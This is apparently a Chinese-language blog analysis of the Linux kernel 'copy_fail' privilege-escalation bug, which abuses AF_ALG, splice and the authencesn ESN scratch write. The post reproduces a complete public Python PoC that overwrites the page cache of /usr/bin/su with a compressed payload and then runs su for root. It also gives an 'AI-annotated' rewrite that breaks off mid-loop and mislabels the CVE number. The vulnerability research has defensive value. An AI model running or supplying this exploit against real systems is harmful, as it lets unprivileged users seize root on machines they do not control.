

本文剖析 Linux 内核 crypto 子系统的 copy_fail 漏洞：authencesn 算法为处理扩展序列号（ESN）引入的"临时写入"机制，在加密/认证失败的异常路径下，可将 4 字节可控数据写入任意只读文件对应的 Page Cache，进而实现本地提权（LPE）。文末附公开 PoC 的逐段分析。

> **参考资料**
> - [看雪论坛：copy_fail 漏洞分析帖](https://bbs.kanxue.com/thread-291167.htm)
> - [掘金：相关漏洞分析文章](https://juejin.cn/post/7634537755251081226)
> - [GitHub：Juguitos/copy-fail](https://github.com/Juguitos/copy-fail)
> - [知乎：相关专栏文章](https://zhuanlan.zhihu.com/p/2033279916859470743)

## 漏洞原理剖析

这里剖析一下 copy_fail 漏洞的原理。

这个漏洞的本质可以用一句话描述：它是 Linux 内核 crypto 子系统中的一个逻辑漏洞，使普通用户能够向任意可读文件对应的 Page Cache 写入 4 个可控字节，最终获得 root 权限。

漏洞发生在 `copy_from_iter()` 函数里。

### Page Cache 与 AF_ALG

Linux 在读取磁盘文件时，并不每次都去访问磁盘，而是先到 Page Cache 里寻找是否有缓存：找到就直接使用缓存数据，没找到再去访问磁盘。

但 Page Cache 是多个进程共享的，如果有人能修改它，所有进程都会看到修改后的内容。

然后我们需要去了解AF_ALG接口，也就是User Space Crypto API，用户态程序可以直接调用内核加密算法。

比如

```c
socket(AF_ALG)
```

```text
User
 ↓
AF_ALG Socket
 ↓
Crypto Subsystem
 ↓
Kernel
```

当调用 authencesn 算法时，copy_fail 漏洞就出现了。

### AEAD 与 authencesn

AEAD即Authenticated Encryption with Associated Data，带关联数据的认证加密，是一种同时提供数据加密、完整性验证和身份认证的加密模式。

AEAD不仅对数据进行加密以保证保密性，还通过认证机制确保数据在传输或存储过程中未被篡改，同时验证密钥和数据的正确性。

简单来说就是把密文和不加密但要认证的数据同时参与认证。aad就是表示需要认证但是不需要加密的附加数据。比如tls里面的记录头信息。

AEAD算法比如aes-gcm,

```text
AEAD(
   key,
   nonce,
   plaintext,
   aad
)
=
(ciphertext, tag)
```

而Authencesn全称是： Authenticated Encryption with Associated Data and Extended Sequence Numbers，具有关联数据和扩展序列号的认证加密。主要是给IPsec ESP使用的。普通的aead是aad、payload参与认证，authencesn则是aad,payload,sequence number参与认证。这样攻击者即使复制了整个包，也会因为sequence number的不同而过不了认证。

copy_fail 漏洞与 authencesn 的处理有关：研究人员发现，authencesn 在处理时会重新组织内存布局并交给 `copy_from_iter()`，而用户空间可以通过 AF_ALG 接口调用 authencesn 并完全控制 aad 的内容。authencesn 并没有对 aad 进行完整校验，导致 Page Cache 的内容被 authencesn 修改。

### splice 与 ESN Scratch Write

splice() 是 Linux 提供的零拷贝数据传输机制。在支持的场景下，它不会复制实际数据，而是让 pipe_buffer 直接引用已有的内核页（例如文件的 page cache 页），从而减少内存拷贝开销。

在 file→pipe 的 splice 路径中，pipe_buffer 通常不会保存文件内容的副本，而是持有对应 page cache 页的引用。因此后续内核组件如果错误地将这些页当作可修改的临时缓冲区，就可能直接修改底层 page cache，而不仅仅是修改 pipe 中的数据。

普通的 `read()` + `write()` 流程需要将文件数据拷贝到用户空间 buffer，再从用户空间 buffer 拷贝到目标。而 `splice()` 直接把文件的 page cache 页面引用传递给管道的另一端，全程不发生数据拷贝。

引用自参考博客

我们还需要理解 IPsec ESP 协议中 ESN（Extended Sequence Number）机制 。



ESP 协议最初只有一个 32 位序列号。发送一个数据包，序列号就加一。

但 32 位最多只能表示约 42 亿个包。在高速网络环境下，这个数字并没有想象中那么大。如果序列号最终重新回到 0，就可能出现重放攻击问题，因为旧的数据包又拥有了相同的序列号。

因此 IPsec 引入了 ESN（Extended Sequence Number）。

ESN 实际上把序列号扩展成了 64 位，其中：

- 低 32 位仍然放在网络数据包中传输；
- 高 32 位由通信双方在本地维护。

这样序列号几乎不可能发生回绕。

ESP 的认证机制需要计算 HMAC。

如果 HMAC 只覆盖低 32 位序列号，那么当序列号从 0x00000000FFFFFFFF 增加到 0x00000001FFFFFFFF 时，网络上传输的低 32 位仍然都是 0xFFFFFFFF

这样两个不同的数据包可能得到相同的认证输入。

因此 RFC 要求：认证计算必须包含完整的 64 位序列号。也就是说，高 32 位虽然没有发送出去，但仍然必须参与 HMAC 运算。

Linux 原来的 authenc 框架是在 ESN 出现之前设计的。它默认认为参与认证的数据只有：

- SPI
- 低 32 位序列号
- 数据负载

它并不知道还有一个“高 32 位”。但协议要求高 32 位必须参与认证，因此 authencesn 就必须想办法把这 4 个字节塞进认证计算的数据流中。

在 ESP 输出数据包时，数据包尾部通常会预留一块空间，用于存放最终计算出来的认证标签（auth tag）。

而在 HMAC 尚未计算完成之前，这块空间实际上还是空的。开发人员发现，既然这里反正暂时没有内容，不如先借用这块空间。于是 authencesn 会把 ESN 的高 32 位临时写到这块区域中。这样 HMAC 在遍历整个缓冲区时，就能够看到完整的 64 位序列号。

因此：

1. 把高 32 位写进去；
2. 执行 HMAC；
3. HMAC 计算完成；
4. 再把真正的 auth tag 写回去。

从最终网络数据包来看，这 4 个字节从来不会真正发送出去，它只是一个临时工作区。这就是所谓的：ESN scratch write（ESN 临时写入）。

正常情况下，整个过程是：

首先，高 32 位被写入认证标签的位置。随后加密和认证过程成功执行。最后，真正计算出来的 auth tag 会覆盖掉这 4 个字节。

因此最终数据包中只会留下：

- payload
- auth tag

临时写入的数据已经消失。

所以很多年里，这种设计一直都正常工作。

直到 copy_fail 的发现：

开发者默认认为，后续步骤一定会成功。但是实际上，加密或者认证操作可能失败。

例如：

- 内存分配失败；
- 加密请求失败；
- 异步操作失败；
- 驱动返回错误。

如果错误发生在高 32 位已经写入之后，而真正的 auth tag 还没有写回之前，那么流程会提前退出。这样就出现了一个问题：那 4 个字节仍然残留在 dst buffer 中。原本只是临时工作区的数据，没有被恢复。

因此：

- 缓冲区内容变得异常；
- 某些内核数据可能泄漏；
- 后续代码可能读取到错误的数据；
- 用户空间可能观察到不应该看到的内容。

这就是 Copy Fail 的本质。

### 漏洞的出现

前面已经提到了一些漏洞的背景原理，现在具体到copy fail漏洞是怎么发生的。

漏洞的引入要追溯到 2017 年。

在 2017 年之前，algif_aead 的解密采用的是 **out-of-place 解密模式**。

所谓 out-of-place，就是：

- 输入缓冲区（src）和输出缓冲区（dst）不是同一个。
- 解密后的数据写入另外一块内存。

当时的代码逻辑是：

- TX SGL（发送缓冲区）作为输入。
- RX SGL（接收缓冲区）作为输出。

TX SGL 里面保存了用户发送进来的全部数据：

- AAD
- 密文
- Auth Tag

而 RX SGL 是用户调用 recvmsg() 时提供的接收缓冲区。

```text
解密前：
TX：
[AAD][密文][TAG]

RX：
[空]

解密后：

RX：
[？？][明文]
```

这里的问题在于：AEAD 算法本身只负责处理密文。它不会主动去处理 AAD。

AEAD 的工作流程实际上是：

- AAD：参与认证，但不加密。
- 密文：参与认证，并且需要解密。
- Tag：用于验证完整性。

因此解密结束以后：密文部分变成明文，AAD 理论上应原样保留。

但是底层加密算法只会操作密文区域。

然而对 algif_aead 而言：AAD 在 src 中，dst 中对应位置是空的。

于是解密完成以后：

```text
dst:

[AAD区域] [明文]
```

前面的 AAD 区域没人填。

结果用户收到的数据变成：

```text
0000000000000000 + plaintext
```

AAD 全是 0——这违反了 AEAD 接口的语义。

内核开发者 Stephan Mueller 提交的 commit `72548b093ee3` 就是专门解决这个问题的。

开发者的思路非常简单：既然算法不会复制 AAD，那么调用者自己复制： 先把 AAD 和密文复制到 RX， 然后算法直接在RX上解密。

于是新增了一步：

```text
src ----copy----> dst
      AAD区域
```

这样：

- AAD 被提前写入 dst。
- 解密时算法只处理密文。
- 最终用户收到：

```text
AAD + plaintext
```

这才符合 AEAD API 的要求。

因此这个补丁本身其实是完全正确的。

但是这样修复之后，解密收到的是

```text
RX：
[AAD][明文]
```

AEAD 算法还需要验证 Tag，开发者采用了直接引用的方法：

```text
RX：
[AAD][密文]
         ↓
       TAG页面
```

也就是 `sg_chain()`。

这里没有复制 Tag，而是在 scatterlist 后面再挂一个节点。

这为漏洞的出现提供了机会。

在 Linux 内核中，为了追求极致的性能，用户经常会使用 `splice()` 或 `sendfile()` 系统调用。这些调用的核心优化就是**零拷贝（Zero-Copy）**。

当用户通过 `splice()` 将一个文件中的数据发送到 `algif_aead` 的 Socket 时，内核为了省去将数据从内核复制到用户空间的开销，会**直接把该文件在 Page Cache（页面缓存）中的物理页面（Pages）拿过来，作为 TX SGL 的内存流**。

这意味着：

- **此时 TX SGL 里的 AAD、密文等数据，在物理上就是 Page Cache 里的页面。**
- 这些页面是由内核的管理机制（如文件系统、块设备层）锁定的，通常是只读的。

但是漏洞单靠 `splice` 还不够，攻击者还需要利用一个网络编程中常见的标志：`MSG_MORE`。

当调用 `sendmsg()` 或 `splice()` 时如果带了 `MSG_MORE`，意思是：“我后面还有数据要发，你先别急着提交给硬件/加密算法，先在内核里攒着。”

此时，`algif_aead` 会把当前的 TX SGL（来自于 Page Cache 的页面）暂存到内核的 Socket 缓冲区中（即 `ctx->tsgl`）。

漏洞的触发还需要 `copy_from_iter` 参与。

用户接下来调用 `recvmsg()` 尝试去解密并接收数据。

正如我们前面分析的，commit 72548b093ee3 引入了一个修复操作：**在解密前，必须先把 AAD 区域从 src（TX SGL）复制到 dst（RX SGL）。**

内核在执行这个复制时，使用的是底层内存拷贝函数（如 `copy_from_iter` 或 `memcpy_from_page`）。 它的意图是：从 TX SGL（源）读取 AAD，写入 RX SGL（目的）。

**但是，如果攻击者故意进行恶意构造，让 RX SGL 的接收缓冲区，“正好”也指向刚才那个 Page Cache 页面呢？**（或者由于并发、重用等原因导致了页面的重叠）。

更严重的是，即使没有完全重叠，根据前面讲的 `sg_chain()` 逻辑： 解密时，算法需要验证 Tag。为了效率，内核直接用 `sg_chain()` 把 TX 的 Tag 页面挂到了 RX SGL 的尾部。

此时的 RX SGL 变成了这样一个“缝合怪”：

```text
RX SGL: [ 用户Rx缓冲区 ] -> [ 链表指针 ] -> [ 来自TX的Tag页面 (实质是Page Cache) ]
```

如果此时调用发生错误，或者在复杂的并发套接字操作中，内核在执行：

```c
// 伪代码：本意是将数据拷入RX，但RX的某个节点（比如Tag）其实指向了Page Cache
crypto_aead_copy_aad(...);
```

由于对输入/输出边界缺乏严格的检查，内核在复制（Copy）时如果发生失败（Fail）——这正是 `copy_fail` 名字的由来：

1. 内核尝试向 RX SGL 写入 AAD 或者是解密后的明文。
2. 结果由于某些页面的共享或重用，这个写入目标**错误地指向了尾部挂载的那个属于 Page Cache 的只读页面**。
3. `copy_from_iter` 这种函数在向一个“只读”的 Page Cache 页面强制写入数据时（内核态有最高权限，可以绕过写保护），**直接污染了（Dirtied）系统全局的 Page Cache！**

`copy_fail` 的闭环：

1. **Page Cache 提供舞台**：用户用 `splice` 发送文件，导致加密算法的输入源（TX）直接引用了内核的 Page Cache（页面缓存）。
2. **Commit 72548b093ee3 引入工具**：为了修复 AAD 为 0 的问题，引入了“主动 Copy AAD 到 RX”以及“用 `sg_chain` 将 Tag 页面直接挂到 RX 尾部”的逻辑。这导致 **RX SGL 间接持有了 Page Cache 页面的写权限**。
3. **Copy Fail 瞬间引爆**：在解密、复制的异常处理路径中（Fail 路径），内核未能正确校验边界，导致原本应该写到用户缓冲区的明文或 AAD，**直接覆盖写进了 Page Cache 页面**。

由于 Page Cache 是全局共享的，一旦它被污染，当其他正常进程（甚至系统核心服务）再次读取该文件时，读到的就是被篡改后的数据。这就完成了从一个“加密 API 语义修复”到“任意文件覆盖 / 本地提权（LPE）”的漏洞演变。

## 漏洞利用过程

我们已经知道，`sg_chain()` 最终将包含 **Tag** 的页面指针挂载到了接收端 `combined dst SGL` 的尾部。现在，我们把整个利用过程从头到尾走一遍。

假设我们的目标是：在无需任何写权限的情况下，向系统关键文件（如 `/usr/bin/su`）的偏移 $t$ 处，强行写入 4 字节的可控恶意数据。

### Step 1：用户空间精心构造并发送数据

在用户空间，攻击者需要通过配置特殊的解密参数，分两步欺骗内核：

- **`assoclen = 8`**：通过 `sendmsg` 的控制消息设置 AAD 长度为 8 字节。
- **`authsize = 4`**：通过 `setsockopt(ALG_SET_AEAD_AUTHSIZE)` 设置认证标签大小为 4 字节。

随后，通过两条路径向 `AF_ALG` 套接字注入数据：

```python
# 1. 构造恶意 4 字节载荷（最终要写入 Page Cache 的数据）
evil_bytes = b'\xde\xad\xbe\xef'

# AAD 前 4 字节任意填充，后 4 字节为 payload
aad = b'\x00\x00\x00\x00' + evil_bytes   
op.sendmsg([aad], cmsg, MSG_MORE)       # 使用 MSG_MORE 标志让内核暂存

# 2. 通过 splice() 引入目标文件的 Page Cache
pipe_r, pipe_w = os.pipe()
target_fd = os.open("/usr/bin/su", os.O_RDONLY) # 仅需只读权限！
os.splice(target_fd, pipe_w, t + 4, offset_src=0)  # 文件 → 管道 (长度 t + 4)
os.splice(pipe_r, op.fileno(), t + 4)               # 管道 → AF_ALG 套接字
```

### Step 2：TX SGL 布局分析

经过上述操作后，内核在物理内存中为 `TX SGL` 攒出来的连续视图如下：

```text
TX SGL 内存布局:
+--------------------+----------------------------------------+
| sendmsg data (8B)  | splice data (t+4 bytes)                |
| AAD: 4 zero bytes  | file[0:t+4]                            |
|      + evil_bytes  | 通过 splice 零拷贝直接引用的物理页面    |
|  (kmalloc 堆内存)  | (指向系统全局共享的只读 PAGE CACHE!)   |
+--------------------+----------------------------------------+
```

从内核 AEAD 解密的视角来切分这段大小为 8 + (t + 4) = t + 12 字节的数据：

- **AAD**（前 `assoclen=8` 字节）= `\x00\x00\x00\x00` + `evil_bytes`
- **密文**（中间 $t$ 字节）= `file[0:t]`（文件的前 $t$ 字节被当成了“密文”）
- **认证标签 Tag**（最后 `authsize=4` 字节）= `file[t:t+4]`

### Step 3：调用 `recv()` 触发零拷贝 SGL 缝合

当用户空间调用 `recv()` 时，内核触发 `_aead_recvmsg()` 并计算解密后的输出大小：

$\text{outlen} = \text{assoclen} + \text{cryptlen} - \text{authsize} = 8 + (t + 4) - 4 = t + 8$

此时，受 commit 72548b093ee3 补丁的影响，内核开始构建 `combined dst SGL`：

1. **`memcpy_sglist(RX buffer, TX SGL, outlen=t+8)`**：

内核将 TX SGL 的前 t+8 字节**真正复制**到用户空间的 RX 缓冲区中。

- `RX buffer [0:8]` = AAD 的副本
- `RX buffer [8:8+t]` = `file[0:t]` 的副本

2. **`af_alg_pull_tsgl(TX SGL, skip=t+8, take=4)`**：

内核跳过前 t+8 字节，提取最后 4 字节的 Tag 区域。由于这 4 字节源于 `splice`，提取出来的 SGL 条目**直接就是文件 Page Cache 的原始页面引用**。

3. **`sg_chain()`**：

内核将这个带有 Page Cache 引用的 Tag 节点挂载到 `RX SGL` 的末尾。

```text
最终的 combined dst SGL 链表结构:

+-- RX buffer (用户空间分配，安全) --+   +-- chained tag (PAGE CACHE 物理页!) --+
|                                   |   |                                     |
| AAD (8B)  |  密文区域 (tB)        |-->| file[t:t+4] 原始文件页面            |
|           |  = copy of file[0:t]  |   | (通过 sg_chain 缝合进来的写目标)     |
|                                   |   |                                     |
+-- 偏移 0               t+8 -------+   +-- 偏移 t+8               t+12 ------+
```

### Step 4：`authencesn` 的 Scratch Write 致命一击

当解密器 `crypto_authenc_esn_decrypt()` 开始执行时，为了处理 ESN（扩展序列号）逻辑，它会执行一段暂存写（Scratch Write）代码：

```c
// 1. 先从 dst SGL 偏移 0 处读取 8 字节的 AAD 到临时变量 tmp
scatterwalk_map_and_copy(tmp, req->dst, 0, 8, 0);  // tmp[0]=AAD[0:4], tmp[1]=AAD[4:8](evil_bytes)

unsigned int cryptlen = req->cryptlen;  // = t + 4
cryptlen -= authsize;                   // = t

// 2. 致命写：将 tmp[1] (即 evil_bytes) 写入 dst SGL 的特定偏移处
scatterwalk_map_and_copy(tmp + 1, req->dst, assoclen + cryptlen, 4, 1);
//                                          ^^^^^^^^^^^^^^^^^^^
//                                        = 8 + t 字节处的偏移
```

根据 Step 3 里的链表图，**偏移 8+t 恰好是安全缓冲区 `RX buffer` 的终点，同时也是 `chained tag pages`（Page Cache 原始引用）的起点！**

内核在内核态拥有最高权限，它会直接绕过 VFS 的只读保护，直接向这个属于 `/usr/bin/su` 的物理页强行写入 4 字节的 `evil_bytes`。

正常情况下，解密尾部函数 `crypto_authenc_esn_decrypt_tail()` 会尝试恢复被暂存写覆盖的数据。但在该漏洞路径下：

1. 它先读取了 `dst[8+t]` 处的当前值（此时已经是攻击者写入的 `evil_bytes`）。
2. 然后回写的是 AAD 数据到 `dst[0:8]`，`**dst[8+t]**` **处的 Page Cache 页面从未被写回原始值**。
3. 随后，由于数据和 Tag 完全是伪造的，HMAC 校验必然宣告失败，内核向用户态返回 `-EBADMSG` 错误码。

但对攻击者而言，这个错误已经无所谓了——**Page Cache（页面缓存）在内存中已经被强行污染（Dirty）**。

### 总结

- **目标文件**：任意当前用户具有只读权限（`O_RDONLY`）的文件均可被作为目标。
- **写入位置（偏移 $t$）**：完全由 `splice()` 传递的长度决定。通过调整长度控制 $t$，可以精准定位到文件内部的任何位置。
- **写入内容**：由 `sendmsg` 发送的 `AAD[4:8]` 决定，4 字节完全可控。
- **写入大小**：固定 4 字节。这个限制并不是因为 `authsize=4`，而是因为 `authencesn` 源码中硬编码了 `sizeof(u32)` 用于存放 ESN 序列号。

由于 Page Cache 是全局共享的，一旦它在内存中被强行篡改，当系统后续尝试去执行 `/usr/bin/su` 或读取敏感配置文件时，就会直接在内存中读取到篡改后的后门数据，从而瞬间实现本地提权（LPE）。

## POC 分析

公开 POC：

[https://github.com/theori-io/copy-fail-CVE-2026-31431](https://github.com/theori-io/copy-fail-CVE-2026-31431)

```python
#!/usr/bin/env python3
import os as g,zlib,socket as s
def d(x):return bytes.fromhex(x)
def c(f,t,c):
 a=s.socket(38,5,0);a.bind(("aead","authencesn(hmac(sha256),cbc(aes))"));h=279;v=a.setsockopt;v(h,1,d('0800010000000010'+'0'*64));v(h,5,None,4);u,_=a.accept();o=t+4;i=d('00');u.sendmsg([b"A"*4+c],[(h,3,i*4),(h,2,b'\x10'+i*19),(h,4,b'\x08'+i*3),],32768);r,w=g.pipe();n=g.splice;n(f,w,o,offset_src=0);n(r,u.fileno(),o)
 try:u.recv(8+t)
 except:0
f=g.open("/usr/bin/su",0);i=0;e=zlib.decompress(d("78daab77f57163626464800126063b0610af82c101cc7760c0040e0c160c301d209a154d16999e07e5c1680601086578c0f0ff864c7e568f5e5b7e10f75b9675c44c7e56c3ff593611fcacfa499979fac5190c0c0c0032c310d3"))
while i<len(e):c(f,i,e[i:i+4]);i+=4
g.system("su")
```python

整个 PoC 的核心逻辑是：**通过循环，每次调用** `**c()**` **函数向** `**/usr/bin/su**` **强行写入 4 字节数据，最终拼出一段完整的恶意 Payload，最后执行** `**su**` **触发提权。**

这个公开的 PoC 写得非常精简且极其精妙（用了类似混淆的短变量名）。它完美地将你前面分析的所有理论转换成了实际的攻击武器。

整个 PoC 的核心逻辑是：**通过循环，每次调用** `**c()**` **函数向** `**/usr/bin/su**` **强行写入 4 字节数据，最终拼出一段完整的恶意 Payload，最后执行** `**su**` **触发提权。**

下面逐段深入解析这段代码：

### 核心解密函数 `c(f, t, c)` 的参数定义

```
def c(f, t, c):
# f: 目标文件的文件描述符 (这里是只读打开的 /usr/bin/su)
# t: 当前写入的目标文件偏移量 (Offset)
# c: 这一次要写入的 4 字节恶意数据 (Payload)
```python

### 初始化 Socket 与配置算法

```
a = s.socket(38, 5, 0)
    a.bind(("aead", "authencesn(hmac(sha256),cbc(aes))"))
```python

- `38`: 即 `AF_ALG`（Linux 内核加密算法套接字家族）。
- `5`: 即 `SOCK_SEQPACKET`。
- `bind(...)`: 绑定受害者算法 `**authencesn(hmac(sha256),cbc(aes))**`。

```
h = 279  # 279 = SOL_ALG (Socket 选项级别)
    v = a.setsockopt
    
    # 1. 设置加密 Key
    v(h, 1, d('0800010000000010' + '0'*64)) # 1 = ALG_SET_KEY
    
    # 2. 设置 authsize = 4 字节
    v(h, 5, None, 4) # 5 = ALG_SET_AEAD_AUTHSIZE
    
    u, _ = a.accept()
```python

- 这里设置了漏洞触发的必要前提条件：`**authsize = 4**`。
- `accept()` 用于创建并获取实际操作的会话套接字 `u`。

### 精心构造发送数据（Step 1 & Step 2）

```
o = t + 4  # o 是总共需要从目标文件 splice 的字节数
    i = d('00') # 快捷方式，代表 b'\x00'
    
    # 3. 发送 AAD 数据
    u.sendmsg(
        [b"A"*4 + c],  # 发送的 AAD 内容：前4字节填充，后4字节是恶意的 'c'
        [
            (h, 3, i*4),            # 3 = ALG_SET_OP (设置操作为解密：0)
            (h, 2, b'\x10' + i*19), # 2 = ALG_SET_IV (初始化向量 IV)
            (h, 4, b'\x08' + i*3),  # 4 = ALG_SET_AEAD_ASSOCLEN (设置 assoclen = 8)
        ], 
        32768 # 32768 = MSG_MORE (关键！暂存数据，暂不解密)
    )
```python

- 这里完成了控制内容的注入。发送的 AAD 总长为 8 字节（`assoclen = 8`）。
- `b"A"*4 + c` 的布局正好对应：前 4 字节任意，后 4 字节 `c` 被当作 `authencesn` 的 ESN 高 32 位（即 Scratch Write 的污染源）。
- `MSG_MORE` 确保这 8 字节被成功缓存。

```
# 4. 零拷贝引入 Page Cache (Step 2)
    r, w = g.pipe()
    n = g.splice
    n(f, w, o, offset_src=0)  # 将 /usr/bin/su 的前 t+4 字节读入管道
    n(r, u.fileno(), o)       # 将管道数据送入 AF_ALG Socket
```python

- 通过 `splice` 零拷贝将 `/usr/bin/su` 文件内容作为 `TX SGL` 后半部分注入。
- 此时，`TX SGL` 尾部（最后 4 字节）正是文件的 `file[t:t+4]`，它在下一步将被 `sg_chain()` 强行缝合到 `RX SGL` 的尾部。

### 触发接收与引爆（Step 3 & Step 4）

```
try:
        u.recv(8 + t) # 触发接收，长度正好是 assoclen + cryptlen - authsize = 8 + t
    except:
        0 # 忽略一切解密失败报错 (-EBADMSG)
```python

- 调用 `recv` 引爆漏洞。
- 内核执行 `memcpy_sglist` 和 `sg_chain` 构建联合 `dst SGL`。
- 紧接着 `crypto_authenc_esn_decrypt()` 启动，执行 **Scratch Write**。
- 高 32 位的 `c`（即 Payload）被强制写入 `dst SGL` 偏移 `8 + t` 处，**精准命中并改写了内存中的 Page Cache！**
- 由于 HMAC 校验必然失败，内核抛出异常，Python 的 `except: 0` 优雅地将其忽略。

### 外围提权逻辑（循环覆盖）

```
f = g.open("/usr/bin/su", 0) # 0 = O_RDONLY (只读打开目标文件)
i = 0

# 解压真正的恶意 Payload（一段经过 zlib 压缩的 Shellcode 或篡改后的 ELF 代码）
e = zlib.decompress(d("78daab77f57163626464800126063b0610af82c101cc7760c0040e0c160c301d209a154d16999e07e5c1680601086578c0f0ff864c7e568f5e5b7e10f75b9675c44c7e56c3ff593611fcacfa499979fac5190c0c0c0032c310d3"))

# 核心循环：由于每次只能写 4 字节，通过不断滑动偏移量 i，把整个二进制文件的前部或关键位置替换掉
while i < len(e):
    c(f, i, e[i:i+4])
    i += 4

# Page Cache 已被彻底污染。此时调用 system("su")，内核直接从被污染的 Page Cache 中
# 读取并执行已经被篡改的 su 镜像。
g.system("su")
```python

1. 攻击者只拥有 `/usr/bin/su` 的**读权限**。
2. 漏洞利用路径是：**文件** **$\rightarrow$** **Page Cache** **$\rightarrow$** **Crypto 核心** **$\rightarrow$** **利用 Scratch 机制强写 Page Cache**。
3. 绕过了普通文件写入必经的 `write()` 系统调用和权限校验，直接在内存中把 `/usr/bin/su` 变成了一个“免密直接给 root”的后门程序，最后一行 `g.system("su")` 瞬间完成本地提权！

**下面给出一个 AI 注释版的 POC：**

```
#!/usr/bin/env python3
"""
CVE-2019-8912 / algif_aead 'copy_fail' 漏洞原理验证 (PoC)
功能：利用内核 authencesn 算法的暂存写机制，越权污染只读文件的 Page Cache
"""

import os
import zlib
import socket

def decrypt_and_taint_page(file_fd, offset_t, evil_bytes):
    """
    核心触发函数：每次调用精准篡改目标文件 offset_t 处的 4 字节
    """
    # 1. 创建 AF_ALG 类型的套接字 (Linux 内核加密接口)
    # AF_ALG = 38, SOCK_SEQPACKET = 5
    alg_socket = socket.socket(38, socket.SOCK_SEQPACKET, 0)
    
    # 绑定存在漏洞的目标算法：authencesn
    alg_socket.bind(("aead", "authencesn(hmac(sha256),cbc(aes))"))
    
    SOL_ALG = 279  # Socket 选项级别控制码
    
    # 2. 配置算法基本参数
    # ALG_SET_KEY = 1：设置加密密钥 (由于不关心加密结果，这里填入固定格式的伪密钥)
    alg_socket.setsockopt(SOL_ALG, 1, bytes.fromhex('0800010000000010' + '0'*64))
    
    # ALG_SET_AEAD_AUTHSIZE = 5：设置认证标签大小为 4 字节（漏洞触发的关键尺寸）
    alg_socket.setsockopt(SOL_ALG, 5, None, 4)
    
    # accept() 接受配置，激活当前加密会话的通信套接字 context_user
    context_user, _ = alg_socket.accept()
    
    # 3. 计算从目标文件引用的数据长度
    # splice 的总长度 = 目标偏移量 t + 4 字节的 Tag 空间
    splice_len = offset_t + 4  
    
    # 4. 构造并发送恶意的 AAD 数据 (Step 1)
    # 协议要求 assoclen=8。我们发送 8 字节：前4字节任意填充 + 后4字节的 evil_bytes
    # 注入的 evil_bytes 恰好对应 authencesn 内部 ESN 的高 32 位序列号
    aad_payload = b"A" * 4 + evil_bytes
    
    # 控制消息配置：
    # ALG_SET_OP = 3：设置操作类型为解密 (b'\x00' 开头)
    # ALG_SET_IV = 2：填充初始化向量 IV
    # ALG_SET_AEAD_ASSOCLEN = 4：强制指定 AAD 长度为 8 字节 (b'\x08' 开头)
    cmsg_buffers = [
        (SOL_ALG, 3, b'\x00\x00\x00\x00'),            
        (SOL_ALG, 2, b'\x10' + b'\x00'*19), 
        (SOL_ALG, 4, b'\x08' + b'\x00'*3),  
    ]
    
    # socket.MSG_MORE = 32768：通知内核“后面还有数据，先暂存到缓存区，不要立刻解密”
    context_user.sendmsg([aad_payload], cmsg_buffers, socket.MSG_MORE)
    
    # 5. 通过 splice() 引入目标文件的 Page Cache 物理引用 (Step 2)
    # 利用内核管道进行零拷贝中转，强行将目标文件的物理页面送入套接字
    pipe_read, pipe_write = os.pipe()
    
    # 文件 -> 管道
    os.splice(file_fd, pipe_write, splice_len, offset_src=0)
    # 管道 -> 漏洞套接字 (此时 TX SGL 的尾部直接指向了文件在 Page Cache 中的原始页面)
    os.splice(pipe_read, context_user.fileno(), splice_len)
    
    # 清理中转管道
    os.close(pipe_read)
    os.close(pipe_write)
    
    # 6. 调用 recv() 接收数据，引爆漏洞 (Step 3 & 4)
    # 期望接收长度：assoclen + ciphertext_len = 8 + offset_t
    # 此时内核会进行物理页面缝合(sg_chain)，RX SGL 的尾部会错误挂载 Page Cache 页面指针
    try:
        context_user.recv(8 + offset_t)
    except OSError:
        # 由于我们提供的 AAD 和 Tag 是伪造的，内核的 HMAC 校验一定会失败并抛出 -EBADMSG 错误
        # 此时只需捕获并优雅地忽略该报错即可，因为在报错前，Scratch Write 已经强制污染了内存
        pass
        
    # 关闭当前会话，准备下一次覆盖
    context_user.close()
    alg_socket.close()

# ==============================================================================
# 漏洞主利用逻辑入口
# ==============================================================================
if __name__ == "__main__":
    # 1. 以纯【只读】方式打开系统提权目标（通常为带有 SUID 的二进制文件，如 su）
    # 不需要写权限，因为漏洞改写完全绕过了 VFS 层的常规权限审计
    target_file_path = "/usr/bin/su"
    target_fd = os.open(target_file_path, os.O_RDONLY)
    
    # 2. 准备最终要把目标文件替换成的恶意二进制 Payload
    # 这里是一段经过 zlib 压缩的 ELF 替换数据（示例：精简版的后门 shellcode 镜像）
    compressed_payload = bytes.fromhex(
        "78daab77f57163626464800126063b0610af82c101cc7760c0040e0c160c301d2"
        "09a154d16999e07e5c1680601086578c0f0ff864c7e568f5e5b7e10f75b9675c"
        "44c7e56c3ff593611fcacfa499979fac5190c0c0c0032c310d3"
    )
    raw_payload = zlib.decompress(compressed_payload)
    
    print(f"[*] 成功加载 Payload，总长度: {len(raw_payload)} 字节")
    print(f"[*] 正在向 {target_file_path} 的 Page Cache 注入恶意数据...")
    
    # 3. 核心循环：由于漏洞的 Scratch Write 每次只能写入硬编码的 4 字节 (sizeof(u32))
    # 我们需要像滑动窗口一样，每次向后移动 4 字节，逐步蚕食并将 Payload 铺满文件的头部
    current_offset = 0
    while current_offset < len(raw_payload):
        # 截取当前需要写入的 4 字节数据
